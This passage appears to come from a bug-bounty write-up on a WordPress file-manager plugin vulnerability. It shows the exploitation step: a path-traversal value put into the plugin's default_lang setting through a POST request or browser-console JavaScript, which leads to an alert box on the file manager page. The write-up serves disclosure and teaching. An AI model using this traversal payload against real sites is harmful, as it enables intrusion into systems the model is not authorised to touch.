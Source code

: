 Then, update the language setting `default_lang` to `/../../../../../../../../payload`. We can do that by sending a POST request to `/wp-admin/admin.php?page=fileorganizer-settings`, or go to the plugin's setting page and enter the following JavaScript code in the browser console:

```javascript
document.querySelector("select[name=default_lang]").selectedOptions[0].value = "/../../../../../../../../payload";
document.querySelector("input[name=save_settings]").click();
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-2/images/Pasted%20image%2020250108214013.png)

Finally, go to the file manager page and we should see an alert box. If not, try to hard refresh the page (Ctrl + Shift + R) to clear the cache.
